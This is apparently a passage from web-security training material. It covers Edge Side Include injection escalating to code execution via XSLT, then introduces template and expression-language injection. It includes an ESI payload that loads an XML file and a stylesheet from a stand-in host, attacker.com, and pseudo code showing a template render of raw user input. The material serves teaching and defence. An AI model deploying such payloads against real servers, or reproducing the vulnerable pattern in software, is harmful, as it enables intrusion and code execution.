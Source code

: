 
There is also a possibility that the ESI Injection might lead to Remote Code Execution when it has support for XSLT.

XSLT is a dynamic language used to transform XML files according to a specified pattern.

For the time being, just note the payload for the ESI Injection to the XSLT execution:

```html
<esi:include src="http://attacker.com/file.xml" dca="xslt" stylesheet="http://attacker.com/transformation.xsl"/>
```



You can also see the original research on ESI Injection by GoSecure parts [one](https://gosecure.ai/blog/2018/04/03/beyond-xss-edge-side-include-injection/) and [two](https://gosecure.ai/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)



---

## Language Evaluation

### Language Evaluation Issues

Language evaluation is a generic name we chose for vulnerabilities that include:

- Double evaluation
- Server Side Template Injections
- Expression language injections



All of them are caused by a user’s ability to force the target application server to execute arbitrary programmistic code. That code is however not in plain form, and it is always in the form of an Expression.

These vulnerabilities were grouped together because of the similarity between them in terms of both detection and exploitation. Their root cause might be a bit different though.

#### Template Engines

Some web applications use template systems to enable dynamic content generation into their pages, similar to the previously mentioned server side includes. Consider the following pseudo code:

```php
$template->render("Hello ${user_name}")
```

The expression between `${}` is the Template Expression, which holds the user_name variable. We do not know the origin of user_name ; presumably it’s generated server side e.g., during login. Using the template engine, it is possible to dynamically print that user name on the login page.



Now consider the following vulnerable pseudo code:

```php
$template->render("Hello $_GET['user_name']")
```
